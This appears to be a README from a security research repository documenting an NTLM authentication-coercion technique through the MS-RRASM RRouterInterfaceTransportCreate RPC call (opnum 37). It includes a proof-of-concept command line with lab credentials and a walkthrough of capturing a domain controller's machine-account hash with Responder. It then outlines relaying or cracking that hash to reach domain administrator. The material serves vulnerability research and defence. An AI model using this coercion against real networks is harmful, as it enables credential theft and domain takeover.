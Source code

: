 # MS-RRASM - Remote call to RRouterInterfaceTransportCreate (opnum 37)

## Summary

+ **Protocol**: [[MS-RRASM]: Routing and Remote Access Server (RRAS) Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrasm/a1e2840d-c9ff-4407-abf4-17aa6af34112)

+ **Protocol UUID**: 8f09f000-b7ed-11ce-bbd2-00001a181cad

+ **Protocol version**: 0.0

+ **SMB Named pipe**: `\PIPE\ROUTER`

+ **Function name**: [`RRouterInterfaceTransportCreate`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrasm/9829344c-f22b-4d53-946b-20542ec43be4)

+ **Function operation number**: `37`

+ **Authenticated**: Yes


## Description

In order to call a remote procedure to trigger an authentication from the remote machine to an arbitrary target, we first need to authenticate to the remote machine, usually on SMB. Then we need to connect to the remote SMB pipe `\PIPE\ROUTER` and bind to the desired [`MS-RRASM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrasm/a1e2840d-c9ff-4407-abf4-17aa6af34112) protocol (with uuid `8f09f000-b7ed-11ce-bbd2-00001a181cad` and version `0.0`) in order to perform remote procedure calls to functions in the [`MS-RRASM`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrasm/a1e2840d-c9ff-4407-abf4-17aa6af34112) protocol.

The IP 192.168.2.51 being my attacking machine where I listen with Responder, and 192.168.2.1 being the IP of my Windows Server. When starting this script, it will authenticate and connect to the remote pipe named `\PIPE\ROUTER` This pipe is connected to the protocol [[MS-RRASM]: Routing and Remote Access Server (RRAS) Management Protocol](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrasm/a1e2840d-c9ff-4407-abf4-17aa6af34112) and allows to call RPC functions of this protocol. We will then call the remote [`RRouterInterfaceTransportCreate`](https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrasm/9829344c-f22b-4d53-946b-20542ec43be4) function on the remote Windows Server (192.168.2.1) with the following parameters:

```cpp
RRouterInterfaceTransportCreate('192.168.2.51\x00')
```

We can try this with this proof of concept code ([coerce_poc.py](./coerce_poc.py)):

```bash
./coerce_poc.py -d "LAB.local" -u "user1" -p "Podalirius123!" 192.168.2.51 192.168.2.1
```

![](./imgs/poc.png)

This will force the Windows Server (192.168.2.1) to authenticate to the SMB share `\\192.168.2.51\share` and therefore authenticate using its machine account (`DC01$`).  After this RPC call, we get an authentication from the domain controller with its machine account directly on Responder:

![](./imgs/hash.png)

After this step, we relay the authentication to other services in order to elevate our privileges, or try to downgrade it to NTLMv1 and crack it in order to get the NT hash of the domain controller's machine account. This kind of vulnerabilities allows to quickly get from user to domain administrator in unprotected domains!


## Function technical detail

```cpp
DWORD RRouterInterfaceTransportCreate(
   [in] DIM_HANDLE hDimServer,
   [in] DWORD dwTransportId,
   [in, string] LPWSTR lpwsTransportName,
   [in] PDIM_INTERFACE_CONTAINER pInfoStruct,
   [in, string] LPWSTR lpwsDLLPath
 );
```

## References

+ Documentation of protocol [MS-RRASM]: Routing and Remote Access Server (RRAS) Management Protocol: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrasm/a1e2840d-c9ff-4407-abf4-17aa6af34112

+ Documentation of function `RRouterInterfaceTransportCreate`: https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-rrasm/9829344c-f22b-4d53-946b-20542ec43be4